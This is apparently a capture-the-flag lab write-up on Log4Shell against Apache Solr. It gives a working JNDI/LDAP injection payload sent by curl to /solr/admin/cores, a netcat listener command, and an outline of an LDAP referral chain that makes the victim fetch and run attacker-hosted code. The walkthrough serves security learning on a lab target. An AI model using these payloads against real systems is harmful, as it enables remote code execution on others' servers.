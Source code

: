 `${jndi:ldap://ATTACKERCONTROLLEDHOST}`

This syntax indicates that the log4j will invoke functionality from "JNDI", or the "Java Naming and Directory Interface." Ultimately, this can be used to access external resources, or "references," which is what is weaponized in this attack. 

Notice the `ldap://` schema. This indicates that the target will reach out to an endpoint (an attacker controlled location, in the case of this attack) via the LDAP protocol.

What we should understand now is that because the `params` field that we as a user can supply to `/solr/admin/cores` is logged, then we can send a payload that, once logged, will cause Log4j to perform a JNDI lookup, connecting to a LDAP server we will set up(**ATTACKERCONTROLLEDHOST**), 

Other locations we might be able to supply the JNDI syntax:
- Input boxes, user and password login forms, data entry points within applications
- HTTP headers such as `**User-Agent**`, `**X-Forwarded-For**`, or other customizable headers
- **Any place for user-supplied data**


## Proof of concept

Let's try to make the server connect to us.

Let's start a simple netcat listener on our local machine

```shell
sudo nc -nlvp 9999
```

Then, we should send a request to /solr/admin/cores that has 

```
curl 'http://10.10.152.218:8983/solr/admin/cores?param=$\{jndi:ldap://10.9.0.233:9999\}'
```

And we have a connection:

![](./images/solr2.png)


## Exploitation
Because the server made an LDAP request, netcat only showed some non-printable characters. To make the exploit work, we will need a listener that can understand LDAP requests.

The room gives one solution for this, which is using an **LDAP Referral Server**. This server would basically receive the LDAP request, and then send it to a http server that we host, then return the resource hosted on the http server.

1.  `${jndi:ldap://attackerserver:1389/Resource}` -> reaches out to our LDAP Referral Server
2.  LDAP Referral Server springboards the request to a secondary `http://attackerserver/resource`
3.  The victim retrieves and executes the code present in `http://attackerserver/resource`
